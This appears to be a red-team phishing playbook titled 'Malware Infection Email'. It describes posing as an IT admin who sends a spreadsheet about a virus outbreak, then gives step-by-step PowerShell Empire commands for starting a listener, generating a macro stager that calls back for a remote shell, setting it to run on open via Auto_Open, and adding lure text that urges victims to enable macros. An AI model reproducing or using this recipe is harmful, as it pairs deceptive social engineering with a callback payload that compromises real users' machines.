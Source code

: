 # Malware Infection Email

**Objective:** Shell

## Pretext: 
You are an IT Admin and a new virus has been infecting computers. You are sending out a
spreadsheet to users who are affected. You're asking the phished users to view the
document to make sure they're not on the list and to come see the admin if you are.

## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  a. git clone git@github.com:PowerShellEmpire/Empire.git
  b. ./setup/install.sh
2. Starting up a listener:
  a. set host <listening host:port>
  b. set whatever parameters you want on this, just type 'info'
  c. 'execute'
3. Generating the Macro
  a. usestager macro
  b. set listener <listener number>
  c. 'execute'
  d. copy the output function
4. Inserting the macro
  a. Open Excel > New Document > 'alt+F11' will get you to the macros
  b. Double-clck on "This Workbook"
  c. Paste in the macro function from Empire
  d. Change the Sub call to 'Auto_Open()'
  e. Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
  f. Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.
